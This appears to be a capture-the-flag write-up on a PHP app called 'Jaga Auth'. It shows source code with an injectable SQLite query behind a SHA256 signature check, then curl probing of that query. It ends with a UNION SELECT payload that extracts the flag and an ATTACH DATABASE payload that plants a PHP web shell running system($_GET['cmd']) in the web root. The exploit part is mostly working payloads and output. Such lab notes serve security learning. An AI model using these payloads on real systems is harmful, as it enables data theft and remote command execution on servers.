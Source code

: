 
# SQL Injection

```php
<?php
    $SECRET = getenv('SECRET');
    if (isset($_GET["uid"])) {
        $uri = explode('|', substr($_SERVER["REQUEST_URI"], strpos($_SERVER["REQUEST_URI"], "?") + 1));
        $paramstr = urldecode($uri[0]);
        $params = parse_url('?' . $paramstr);
        parse_str($params['query'], $params);
        $sig = $uri[1];
        echo $sig . "<br>";
        echo $paramstr . "<br>";
        echo hash("sha256", $SECRET . $paramstr) . "<br>";
        if ($sig !== hash("sha256", $SECRET . $paramstr)) {
            http_response_code(404);
            include('404.php'); 
            die();
        }
    }
    else {
        header("Location: /");
        die();
    }
    if (isset($params["uid"])) {
        $uid = $params["uid"];
        $db = new PDO('sqlite:jaga.db');
        echo "<span>SELECT * FROM j4g4_us3rs WHERE uid = '$uid'</span>"; // Custom Comment
        $user = $db->prepare("SELECT * FROM j4g4_us3rs WHERE uid = '$uid'");
        $user->execute();
        $user = $user->fetch();
        if (!$user) {
            $user = array(
                "username" => "Guest",
                "role" => 0
    
        );
?>
<html>
    <head>
        <title>Jaga Auth</title>
        <link rel="stylesheet" href="static/style.css">
        <link rel="preconnect" href="https://fonts.googleapis.com">
        <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
        <link href="https://fonts.googleapis.com/css2?family=Silkscreen&display=swap" rel="stylesheet">
    </head>
    <body>
        <div class="nav">
            <div>
                <a href="index.php">Home</a>
                <a href="register.php">Register</a>
            </div>
            <a href="profile.php">Profile</a>
        </div>
        <div class="body">
            <h1>Jaga Auth</h1>
            <?php 
                if ($user) {
                    echo "<h2>Welcome, " . $user["username"] . "!</h2>";
                }
                else //echo "Sorry, not authorized.";
            ?>
        </div>
    </body>
</html>


```

SQL Injection?

http://localhost/profile.php?uid=34b9bdd9cdc5078970d06e39bd211ea5579db090f75dc5b9b4efad3e3e3fb06c|73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff

![[Pasted image 20221203022956.png]]

http://localhost/profile.php?uid=34b9bdd9cdc5078970d06e39bd211ea5579db090f75dc5b9b4efad3e3e3fb06c|73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff%22;--

![[Pasted image 20221203023027.png]]

![[Pasted image 20221203023120.png]]


### Syntax

Comments are done using `#`

```bash
(base) [hacker@hackerbook web_extended]$ curl "http://localhost/profile.php?uid=34b9bdd9cdc5078970d06e39bd211ea5579db090f75dc5b9b4efad3e3e3fb06c|73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff'#--" && echo
73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff'<br>uid=34b9bdd9cdc5078970d06e39bd211ea5579db090f75dc5b9b4efad3e3e3fb06c<br>73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff<br>Oops
(base) [hacker@hackerbook web_extended]$ curl "http://localhost/profile.php?uid=34b9bdd9cdc5078970d06e39bd211ea5579db090f75dc5b9b4efad3e3e3fb06c|73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff'--" && echo
73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff'--<br>uid=34b9bdd9cdc5078970d06e39bd211ea5579db090f75dc5b9b4efad3e3e3fb06c<br>73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff<br>Oops
(base) [hacker@hackerbook web_extended]$ 
```

Spaces can cause errors

```
(base) [hacker@hackerbook web_extended]$ curl "http://localhost/profile.php?uid=34b9bdd9cdc5078970d06e39bd211ea5579db090f75dc5b9b4efad3e3e3fb06c|73905a868cc6e227b37e4c5e0a02b30b8e363f90733fc0fd98d22fd66e551eff' # " && echo
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.54 (Debian) Server at 172.17.0.4 Port 80</address>
</
```


### Bypassing Hashfunc


SHA256 hash this
```
REDACTEDuid=
```

```
{SECRET}uid={uid}
```


## SQL Query

http://localhost/profile.php?|b83c7778c23a8d199def24fba1e96d24338d2bd9d859b613fde9a9a9077d88ec|&uid=1&test=1%27%20UNION%20SELECT%201,flag,1,1,1%20FROM%20j4g4_us3rs;--

```
ATTACH DATABASE '/var/www/html/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```